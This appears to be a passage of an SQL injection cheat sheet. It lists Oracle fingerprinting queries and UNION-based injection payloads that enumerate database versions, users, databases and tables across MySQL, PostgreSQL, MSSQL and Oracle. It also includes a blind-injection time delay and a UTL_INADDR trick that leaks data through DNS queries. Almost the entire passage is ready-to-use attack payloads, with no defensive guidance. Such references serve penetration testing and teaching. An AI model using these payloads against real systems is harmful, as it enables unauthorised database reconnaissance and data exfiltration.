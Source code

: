 ### Oracle
* **Version:** `SELECT banner FROM v$version`, `SELECT version FROM v$instance`
* **Current User:** `USER`
* **Current Database (Instance Name):** `SELECT global_name FROM global_name;`, `SELECT instance_name FROM v$instance;`
* **Comments:** `-- `, `/* */`
* **Concatenation:** `||`, `CONCAT(str1, str2)`
* **Information Gathering:**
    * Tables: `SELECT table_name FROM all_tables`, `SELECT table_name FROM user_tables`
    * Columns: `SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE_NAME'`
* **Limit (Rows):** Use `ROWNUM` (e.g., `SELECT * FROM (SELECT column, ROWNUM AS r FROM table) WHERE r BETWEEN M AND N`)
* **Time Delay:** `DBMS_LOCK.SLEEP(seconds)` (requires execute privilege on DBMS_LOCK)
* **Error-Based (UTL_INADDR):** `SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT banner FROM v$version WHERE ROWNUM=1)) FROM DUAL` (sends DNS query)

---

## Information Gathering Payloads

These are often used with UNION-based or Blind SQLi.

### Database Version
* MySQL: `UNION SELECT @@version -- `
* PostgreSQL: `UNION SELECT version() -- `
* MSSQL: `UNION SELECT @@version -- `
* Oracle: `UNION SELECT banner FROM v$version WHERE ROWNUM=1 -- `

### Current User
* MySQL: `UNION SELECT user() -- `
* PostgreSQL: `UNION SELECT current_user -- `
* MSSQL: `UNION SELECT SYSTEM_USER -- `
* Oracle: `UNION SELECT user FROM dual -- `

### Current Database
* MySQL: `UNION SELECT database() -- `
* PostgreSQL: `UNION SELECT current_database() -- `
* MSSQL: `UNION SELECT DB_NAME() -- `
* Oracle: `UNION SELECT global_name FROM global_name -- ` (or `(SELECT SYS_CONTEXT('USERENV', 'DB_NAME') FROM DUAL)`)

### List Databases
* MySQL: `UNION SELECT schema_name FROM information_schema.schemata -- `
* PostgreSQL: `UNION SELECT datname FROM pg_database -- `
* MSSQL: `UNION SELECT name FROM master..sysdatabases -- ` or `UNION SELECT name FROM sys.databases -- `
* Oracle: (No direct query for all databases like others, typically focus on schemas/tables within the current DB) `SELECT username FROM all_users ORDER BY username;` (lists schemas)

### List Tables (from a known database `DB_NAME`)
* MySQL: `UNION SELECT table_name FROM information_schema.tables WHERE table_schema='DB_NAME' -- `
    * (If `DB_NAME` is current DB): `UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() -- `
* PostgreSQL: `UNION SELECT tablename FROM pg_tables WHERE schemaname='public' -- ` (or other schema)
* MSSQL: `UNION SELECT name FROM DB_NAME..sysobjects WHERE xtype='U' -- ` (older) or `UNION SELECT table_name FROM DB_NAME.INFORMATION_SCHEMA.TABLES WHERE table_type='BASE TABLE' -- `
* Oracle: `UNION SELECT table_name FROM all_tables WHERE owner='SCHEMA_NAME' -- `
